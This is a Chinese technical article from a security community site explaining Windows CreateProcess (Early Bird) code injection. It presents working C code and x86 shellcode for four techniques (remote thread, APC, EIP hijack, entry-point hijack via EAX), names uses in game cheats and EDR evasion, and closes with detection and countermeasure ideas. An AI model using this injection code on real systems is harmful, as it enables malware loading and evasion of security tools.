





# 代码注入之CreateProcess注入-先知社区

> **来源**: https://xz.aliyun.com/news/17837  
> **文章ID**: 17837

---

CreateProcess注入是一种通过主动创建目标进程来实现代码植入的技术，其主要优点是注入时机比较早，目标进程的防护和检测机制还未启动，可以有效规避目标进程中的一些安全防护和检测。比如，在游戏外挂中，用于在游戏的反外挂驱动起来之前获取游戏进程的读写权限；在红队渗透测试中，用于绕过杀软/EDR基于API Hook的注入检测。本文将介绍CreateProcess注入的基本框架，基于此框架介绍四种不同的注入实现，最后给出检测和对抗方案。

# 一、核心环节

CreateProcess注入可以分为三个环节：

1. **主动创建挂起进程**：通过`CreateProcess`等API以`CREATE_SUSPENDED`标志创建处于挂起状态的目标进程，阻止其立即执行。

```
BOOL CreateProcessA(
[in, optional]      LPCSTR                lpApplicationName,
[in, out, optional] LPSTR                 lpCommandLine,
[in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
[in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
[in]                BOOL                  bInheritHandles,
[in]                DWORD                 dwCreationFlags,  // 填 CREATE_SUSPENDED
[in, optional]      LPVOID                lpEnvironment,
[in, optional]      LPCSTR                lpCurrentDirectory,
[in]                LPSTARTUPINFOA        lpStartupInfo,
[out]               LPPROCESS_INFORMATION lpProcessInformation
);
```

2. **注入代码并构造执行时机**：在挂起的进程内存中写入shellcode，并构造执行时机，常见的方法有：

* **创建远线程**：以shellcode为线程函数创建远线程，可立即执行，不需要等进程恢复。
* **添加APC**：以shellcode为APC函数添加到主线程的APC队列，在主线程恢复时调用APC。
* **Hook线程IP（指令指针）寄存器**：修改目标进程中主线程的IP寄存器指向shellcode，shellcode执行完后跳回原IP处。
* **修改入口点**：修改进程入口点指向shellcode，shellcode执行完后跳回原入口点。

3. **恢复目标进程执行**：恢复目标进程执行，shellcode在指定时机被调用，完成注入。

# 二、具体实现

## 2.1 实现框架

基于上述环节，可以给出CreateProcess注入的代码框架，只是获取执行时机这一步骤的具体实现不同。

1. 创建挂起进程：`CreateProcess`+`CREATE_SUSPENDED`
2. 分配内存：`VirtualAllocEx`
3. 构建执行时机：取决于具体注入方式
4. 恢复主线程：`ResumeThread`

```
#define SHELLCODE_SIZE 0x1000

int main(int argc, char** argv) {
    char* victimPath = argv[1];
    char* injectDllPath = argv[2];

    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };

    do {
        // 1. 以挂起状态创建目标进程
        si.cb = sizeof(si);
        if (!CreateProcessA(victimPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
        {
            printf("[-] Create victim process failed: %d
", GetLastError());
            break;
        }
        printf("[+] Create victim process OK, pid=%d, main tid=%d
", pi.dwProcessId, pi.dwThreadId);

        // 2. 在目标进程中分配内存，用于写入Shellcode
        void* shellcodeAddr = VirtualAllocEx(pi.hProcess, NULL, SHELLCODE_SIZE, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        if (shellcodeAddr == NULL) {
            printf("[-] Alloc memory in victim process failed: %d
", GetLastError());
            break;
        }
        printf("[+] Alloc memory in victim process OK: %p
", shellcodeAddr);

        // 3. TODO: 写入shellcode，并构建shellcode的执行时机

        // 4. 恢复目标线程的执行
        ResumeThread(pi.hThread);
        printf("[+] Inject done
");
    } while (false);

    if (pi.hProcess != NULL)
        CloseHandle(pi.hProcess);
    if (pi.hThread != NULL)
        CloseHandle(pi.hThread);
    return 0;
}
```

## 2.2 执行时机的构建

### **创建远线程**

以`CREATE_SUSPENDED`标记创建目标进程，实际上暂停的是目标进程中的主线程，并不影响其他线程的执行。所以，可以通过创建远线程的方式，执行写入的shellcode。比如，把注入的dll的路径写入申请的shellcode位置，然后以`LoadLibraryA`为线程函数创建远线程，线程函数参数为dll路径，线程执行时就会加载dll。

```
bool injectByRemoteThread(HANDLE hVictimProcess, void* shellcodeAddr, const char* injectDllPath) {
    // 将注入的dll的路径写入分配的shellcode内存中
    if (!WriteProcessMemory(hVictimProcess, shellcodeAddr, injectDllPath, strlen(injectDllPath) + 1, NULL))
    {
        printf("[-] Write injection dll path to victim process failed: %d
", GetLastError());
        return false;
    }
    printf("[+] Write injection dll path to victim process OK
");

    // 创建远线程，线程函数为LoadLibraryA，参数为shellcode地址
    DWORD tid = 0;
    HANDLE hRemoteThread = CreateRemoteThread(hVictimProcess, NULL, 0, (PTHREAD_START_ROUTINE)LoadLibraryA, shellcodeAddr, 0, &tid);
    if (hRemoteThread == NULL) {
        printf("[-] Create remote thread for victim process failed: %d
", GetLastError());
        return false;
    }
    printf("[+] Create remote thread for victim process OK: tid=%d
", tid);
    return true;
}
```

### **添加APC**

除了使用远线程执行shellcode，也可以使用APC的方式执行shellcode。APC（异步过程调用）是Windows系统提供的一种线程间通信机制，通过`QueueUserAPC`向目标线程的APC队列添加一个APC函数，当目标线程处于alertable状态时，就会执行APC函数。如果APC是在线程开始执行之前加入的，线程开始执行时，会先调用APC函数。

> If an application queues an APC before the thread begins running, the thread begins by calling the APC function. [[1]](#1)

线程初始化时会调用`ZwTestAlert`进入内核检查APC队列，如果APC队列不为空，会标记线程有待处理的APC，当从内核返回时，执行APC队列中的APC函数[[2]](#2)。所以，可以向目标进程的主线程添加APC，主线程恢复执行时触发APC调用，执行shellcode。CreateProcess注入结合APC也叫**Early Bird注入**。

线程初始化时调用`NtTestAlert`进入内核：



从内核返回后，执行添加的APC函数，加载恶意dll：



因为`LoadLibraryA`的参数个数和类型与APC函数的一样（返回值类型不一样没关系，因为调用约定是`__stdcall`，函数内部平衡调用栈），所以可以将`LoadLibraryA`作为APC函数，添加到目标进程的主线程，当主线程恢复执行时，会触发APC调用，执行shellcode。

```
bool injectByApc(HANDLE hVictimProcess, HANDLE hVictimThread, void* shellcodeAddr, const char* injectDllPath) {
    // 将注入的dll的路径写入分配的shellcode内存中
    if (!WriteProcessMemory(hVictimProcess, shellcodeAddr, injectDllPath, strlen(injectDllPath) + 1, NULL))
    {
        printf("[-] Write injection dll path to victim process failed: %d
", GetLastError());
        return false;
    }
    printf("[+] Write injection dll path to victim process OK
");

    // 添加APC，APC函数为LoadLibraryA
    if (!QueueUserAPC((PAPCFUNC)LoadLibraryA, hVictimThread, (ULONG_PTR)shellcodeAddr)) {
        printf("[-] Queue user APC failed: %d
", GetLastError());
        return false;
    }
    printf("[+] Queue user APC OK
");
    return true;
}
```

### **Hook IP寄存器**

Hook也是一种获取执行时机的方法，可选的Hook的对象有很多，比如指令、函数、IAT等，当对应地址被触发调用时，就可以执行shellcode。在CreateProcess注入中，我们只关注时机比较早的Hook对象，比如线程初始化函数、线程入口点、进程入口点等。

线程运行时，IP寄存器指向的是线程的下一条待执行指令的地址，所以如果Hook目标进程的主线程的IP寄存器，将IP寄存器的值改为shellcode的地址，就可以在主线程恢复执行时，在目标进程的代码执行前执行shellcode。这种方法的有点是不用Hook代码，Hook更隐蔽，实现也更简单。

主线程处于挂起状态时，查看线程的IP寄存器，指向的是`RtlUserThreadStart`，这是开始执行用户代码的函数，当线程初始化完成之后，会调用这个函数执行用户代码。



恢复目标进程后，主线程最先执行的实际上是`LdrInitializeThunk`，`LdrInitializeThunk`执行完线程的初始化操作后，再去调用`RtlUserThreadStart`，注意这里是通过之前暂停时线程的IP（系统有保存之前的IP值）去调用的`RtlUserThreadStart`，不是直接通过函数去调用的，所以修改IP寄存器能够达到目标。

```
bool injectByHookIp(HANDLE hVictimProcess, HANDLE hVictimThread, void* shellcodeAddr, const char* injectDllPath) {
    // 获取线程EIP
    CONTEXT context = { 0 };
    context.ContextFlags = CONTEXT_CONTROL;
    if (!GetThreadContext(hVictimThread, &context)) {
        printf("[-] GetThreadContext failed: %d
", GetLastError());
        return false;
    }
    printf("[+] GetThreadContext OK, Eip=0x%x
", context.Eip);

    // 准备shellcode，shellcode功能是加载恶意dll
    uint8_t shellcode[SHELLCODE_SIZE] = {
        0x60,                         // +00 pushad
        0x9C,                         // +01 pushfd
        0x68, 0x00, 0x00, 0x00, 0x00, // +02 push injectDllPath
        0xE8, 0x00, 0x00, 0x00, 0x00, // +07 call LoadLibraryA
        0x9D,                         // +0C popfd
        0x61,                         // +0D popad
        0xE9, 0x00, 0x00, 0x00, 0x00, // +0E jmp original IP
                                      // +13 injectDllPath
    };
    *(uint32_t*)(shellcode + 0x03) = (uint32_t)shellcodeAddr + 0x13;
    *(uint32_t*)(shellcode + 0x08) = (uint32_t)&LoadLibraryA - ((uint32_t)shellcodeAddr + 0x0C);
    *(uint32_t*)(shellcode + 0x0F) = context.Eip - ((uint32_t)shellcodeAddr + 0x13);
    memcpy(shellcode + 0x13, injectDllPath, strlen(injectDllPath) + 1);

    // 将shellcode写入目标进程
    if (!WriteProcessMemory(hVictimProcess, shellcodeAddr, shellcode, sizeof(shellcode), NULL)) {
        printf("[-] Write shellcode to victim process failed: %d
", GetLastError());
        return false;
    }
    printf("[+] Write shellcode to victim process OK
");

    // 修改IP为shellcode，并恢复线程
    context.Eip = reinterpret_cast<uint32_t>(shellcodeAddr);
    if (!SetThreadContext(hVictimThread, &context)) {
        printf("[-] SetThreadContext failed: %d
", GetLastError());
        return false;
    }
    printf("[+] SetThreadContext OK
");
    return true;
}
```

### **Hook入口点**

模块的入口点指向的是模块中被执行的第一条指令，对应的是`mainCRTStartup`等函数，所以Hook目标进程exe模块的入口点，可以在目标进程的代码执行前执行shellcode。Hook入口点的主要步骤为：

**1. 先找到exe模块在目标进程中的基址：**

* 最常见的是通过`CreateToolhelp32Snapshot`枚举进程模块，但以suspend创建的进程，进程恢复前，`CreateToolhelp32Snapshot`会失败，错误码为`ERROR_PARTIAL_COPY`，所以不能使用这种方法。
* 可以通过读取PEB，然后根据`PEB.ImageBaseAddress`找到exe模块的基址。

```
PROCESS_BASIC_INFORMATION pbi = {0};
NtQueryInformationProcess(hVictimProcess, ProcessBasicInformation, &pbi, sizeof(pbi), NULL);
PEB peb = {0};
ReadProcessMemory(hVictimProcess, pbi.PebBaseAddress, &peb, sizeof(peb), NULL);
```

**​**

**2. Hook入口点：根据上面得到的exe模块基址，读取并解析PE头**

* 修改PE头中的入口点：实测无效，看来入口点已被提前获取，这个时机去修改已经没效果了
* 可以直接Hook入口点处的指令：先修改入口点处的内存属性，加上可写，然后进行Hook，再恢复内存属性

直接Hook入口点指令，会修改内存属性和代码，操作比较重，有没有像**Hook IP**那样简单的方法呢？回顾Hook IP中主线程暂停时的寄存器环境，IP寄存器指向`RtlUserThreadStart`，此时`EAX`寄存器显示的值比较特殊，它指向的就是目标进程**exe模块的入口点**。其实`EAX`和`EBX`寄存器保存的是`RtlUserThreadStart`的两个参数，函数的最开始就是将这两个参数回填到栈中的参数位置。

```
VOID WINAPI RtlUserThreadStart(PTHREAD_START_ROUTINE pfnStartAddr, PVOID pvParam);
```



所以，我们可以像**Hook IP**那样，**Hook EAX**寄存器就可以达到Hook入口点的效果。

```
bool injectByHookEntryPoint(HANDLE hVictimProcess, HANDLE hVictimThread, void* shellcodeAddr, const char* injectDllPath) {
    // 获取线程EAX
    CONTEXT context = { 0 };
    context.ContextFlags = CONTEXT_INTEGER; // 获取EAX用CONTEXT_INTEGER
    if (!GetThreadContext(hVictimThread, &context)) {
        printf("[-] GetThreadContext failed: %d
", GetLastError());
        return false;
    }
    printf("[+] GetThreadContext OK, EAX (entry point) is 0x%x
", context.Eax);

    // 准备shellcode
    uint8_t shellcode[SHELLCODE_SIZE] = {
        0x60,                         // +00 pushad
        0x9C,                         // +01 pushfd
        0x68, 0x00, 0x00, 0x00, 0x00, // +02 push injectDllPath
        0xE8, 0x00, 0x00, 0x00, 0x00, // +07 call LoadLibraryA
        0x9D,                         // +0C popfd
        0x61,                         // +0D popad
        0xE9, 0x00, 0x00, 0x00, 0x00, // +0E jmp original Eax
                                      // +13 injectDllPath
    };
    *(uint32_t*)(shellcode + 0x03) = (uint32_t)shellcodeAddr + 0x13;
    *(uint32_t*)(shellcode + 0x08) = (uint32_t)&LoadLibraryA - ((uint32_t)shellcodeAddr + 0x0C);
    *(uint32_t*)(shellcode + 0x0F) = context.Eax - ((uint32_t)shellcodeAddr + 0x13);
    memcpy(shellcode + 0x13, injectDllPath, strlen(injectDllPath) + 1);

    // 将shellcode写入目标进程
    if (!WriteProcessMemory(hVictimProcess, shellcodeAddr, shellcode, sizeof(shellcode), NULL)) {
        printf("[-] Write shellcode to victim process failed: %d
", GetLastError());
        return false;
    }
    printf("[+] Write shellcode to victim process OK
");

    // 修改Eax为shellcode，并恢复线程
    context.Eax = reinterpret_cast<uint32_t>(shellcodeAddr);
    if (!SetThreadContext(hVictimThread, &context)) {
        printf("[-] SetThreadContext failed: %d
", GetLastError());
        return false;
    }
    printf("[+] SetThreadContext OK
");
    return true;
}
```

# 三、检测与对抗

## 基于注入结果（事后）

首先可以从注入结果入手，注入的目标是要改变或者监控目标进程的行为，一般会在目标进程中常驻，而常驻的形式就是**模块或者shellcode**，所以可以事后扫描目标进程内可疑的模块或shellcode，结合签名或特征码进行恶意判定。这里又会衍生出二级对抗，比如特征码的更新、模块/shellcode的隐藏等，逐步演化成拉锯战。这种方法的优点是**通用**，对各种注入方法都有效，缺点是**运营成本较高**。

## 基于注入条件（事前）

CreateProcess注入的前提是要创建suspend状态的目标进程，在目标进程的保护机制生效之前完成注入。那如果能打破这个前提，就可以阻止注入了。**双进程保护**就是这种做法：目标进程启动后会以自身exe再次创建一个进程，创建完成后，第一进程就退出了，第二进程中才会执行完整的功能。

双进程保护常见于一些反外挂系统中，其好处有两方面：

* CreateProcess注入只作用于第一进程，第一进程很快退出，不会执行游戏逻辑；而第二进程是正常创建的，创建后立即执行，没有注入的时机
* 更重要的，第一进程在创建第二进程前先拉起**反外挂驱动**，这样第二进程的启动就完全在反外挂驱动的监控之下，有了防护能力

第一条可以被一些变体形式绕过，比如**CreateProcess连环注**：给注入的dll增加Hook功能和注入功能，在恢复第一进程前，注入的dll再把第一进程的CreateProcess类函数全Hook掉，Hook函数中改成以suspend标记创建第二进程，并执行对第二进程的CreateProcess注入，这样就可以绕过双进程保护了，理论上可以**无限连注**。

第二条就比较麻烦了，因为这时候反外挂驱动已经起来后，第二进程的防护机制已经开始生效，CreateProcess注入的优势被弱化了。比如驱动中在第二进程创建时，检查第一进程中CreateProcess类函数是否被Hook。

## 基于注入时机（事中）

要在注入时机上或注入过程中做检测，我们也需要一个比较早的执行时机，至少要早于进程入口，可以想到的有exe的TLS回调函数，以及exe静态依赖的dll的入口函数，它们的执行时机都是早于exe的入口的，都会在新线程启动时被通知调用，我们可以利用它们做一些检测。

以下是一些基于dll入口的检测思路，通过对exe加壳，将壳dll加入到exe的静态dll依赖中，并劫持exe入口，跳向壳dll先执行检测。

1. 远线程注入：在壳DllMain中，当`DLL_PROCESS_ATTACH`通知时，记录此时的线程ID；等执行到exe入口后，对比当前的线程ID和之前记录的线程ID是否一致，如果不一致，说明有其他线程先于主线程执行，存在远线程注入。
2. APC注入：在壳DllMain中，Hook`KiUserApcDIspatcher`，看它在exe入口前有没有被执行到，如果执行到，说明入口点前有APC执行，可能是APC注入。
3. Hook入口点：在壳DllMain中Hook`RtlUserThreadStart`

* 如果是Hook exe入口点的指令，在我们的Hook函数中对比exe入口点的指令和预期是否一致，比如对比文件中的指令
* 如果是通过Hook EAX寄存器，在我们的Hook函数中对比EAX寄存器是否指向exe加壳后的入口点

4. Hook主线程IP：

* 首先，我们只能找到`RtlUserThreadStart`，找不到或不好找到注入的hook
* 但是执行到`RtlUserThreadStart`时注入的hook已经执行完，而且寄存器环境已经恢复，所有的环境和hook前一样，不太好判断
* 通过痕迹来检测呢？可以看到，hook函数一般都有保存寄存器环境（`pushad`，`pushfd`），并在跳回`RtlUserThreadStart`前恢复寄存器环境(`popfd`,`popad`)的操作，所以执行到`RtlUserThreadStart`时，栈上还残留有保存的寄存器的值。所以我们可以在壳dll中Hook`RtlUserThreadStart`，在我们的hook中看看栈顶之上的内容是否和当前寄存器一样（比如对比`eax`,`ecx`,`edx`,`ebx`），如果顺序和内容一致，说明在此之前有hook。  
  

# 参考

[1] QueueUserAPC function. [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc?devlangs=cpp&amp;f1url=%3FappId%3DDev17IDEF1%26l%3DEN-US%26k%3Dk(PROCESSTHREADSAPI%252FQueueUserAPC)%3Bk(QueueUserAPC)%3Bk(DevLang-C%252B%252B)%3Bk(TargetOS-Windows)%26rd%3Dtrue](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc?devlangs=cpp&f1url=%3FappId%3DDev17IDEF1%26l%3DEN-US%26k%3Dk(PROCESSTHREADSAPI%252FQueueUserAPC)%3Bk(QueueUserAPC)%3Bk(DevLang-C%252B%252B)%3Bk(TargetOS-Windows)%26rd%3Dtrue)

[2] APC 与 Early Bird注入. <https://mp.weixin.qq.com/s/yOITNREaCdA2g1t8XazQkg>
